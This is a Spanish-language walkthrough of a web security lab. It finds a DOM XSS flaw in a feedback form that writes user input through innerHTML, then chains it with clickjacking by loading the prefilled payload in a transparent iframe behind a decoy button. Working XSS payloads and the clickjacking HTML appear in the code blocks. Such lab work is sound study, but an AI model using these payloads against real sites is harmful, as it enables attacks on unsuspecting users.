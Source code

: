 Aquí la función **displayFeedbackMessage(name)** es interesante:

```javascript
feedbackResult.innerHTML = "Thank you for submitting feedback" + (name ? ", " + name : "") + "!";
```

Usa **innerHTML** (una función peligrosa) y **el input del usuario se inserta directamente sin codificación ni validación**.

Si el back-end **no valida la entrada**, es muy probable que sea vulnerable a **XSS basado en DOM**.

```html
<img src=errorpls onerror=alert(document.domain)>
```

<figure><img src="../../.gitbook/assets/image (1502).png" alt=""><figcaption></figcaption></figure>

Ahora podemos **combinar XSS basado en DOM con clickjacking**.

Primero, necesitamos **prellenar el payload de XSS** usando un parámetro GET junto con los demás campos requeridos:

```
/feedback?name=<img src=errorpls onerror=print()>&email=prueba@prueba.com&subject=subject&message=message
```

Así insertamos el payload directamente en el campo **name** para activar el XSS.

```
<style>
 iframe {
  position:relative;
  width: 1000px;
  height: 900px;
  opacity: 0.000001;
  z-index: 2;
 }
 div {
  position:absolute;
  top: 815px;
  left: 40px;
  z-index: 1;
 }
</style>
<div>Click Here to Login</div>
<iframe
src="https://0a6400a104b73b46801e443800140005.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=prueba@prueba.com&subject=test&message=test#feedbackResult"></iframe>
```
